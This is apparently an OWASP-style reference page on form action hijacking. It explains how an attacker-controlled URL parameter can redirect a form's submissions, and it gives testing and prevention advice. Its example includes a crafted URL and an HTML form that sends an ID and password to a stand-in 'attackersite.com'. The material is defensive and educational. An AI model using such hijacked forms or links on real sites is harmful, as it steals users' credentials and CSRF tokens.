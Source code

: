 ```yaml
---

layout: col-sidebar
title: Form action hijacking
author: Robert Gilbert (amroot)
contributors: 
permalink: /attacks/Form_action_hijacking
tags: attack, Form action hijacking
auto-migrated: 1

---
```


{% include writers.html %}

## Overview

Form action hijacking allows an attacker to specify the action URL of a
form via a paramter. An attacker can construct a URL that will modify
the action URL of a form to point to the attacker's server. Form content
including CSRF tokens, user entered parameter values, and any other of
the forms content will be delivered to the attacker via the hijacked
action URL.

## How to Test for Form Action Hijacking Vulnerabilities

Check parameter values passed to the form action. See example below.

## How to Prevent Form Action Hijacking Vulnerabilities

Hard-code the form action URL or use an allowed list of permitted URLs.

## Examples

The following URL will generate the a form and set the "url" parameter
as the from action URL. When the form is submitted, the ID and password
will be sent to the attacker's site.

URL:

`https://vulnerablehost.com/?url=https://attackersite.com`

Source:

```html
<form name="form1" id="form1" method="post" action="https://attackersite.com">
    <input type="text" name="id" value="user name">
    <input type="password" name="pass" value="password">
    <input type="submit" name="submit" value="Submit">
</form>
```

## References

- [Common Weakness Enumeration - CWE-20: Improper InputValidation](https://cwe.mitre.org/data/definitions/20.html)
- [PortSwigger: Form action hijacking(reflected)](https://portswigger.net/knowledgebase/issues/details/00501500_formactionhijackingreflected)
- [PortSwigger: Form action hijacking(stored)](https://portswigger.net/knowledgebase/issues/details/00501501_formactionhijackingstored)

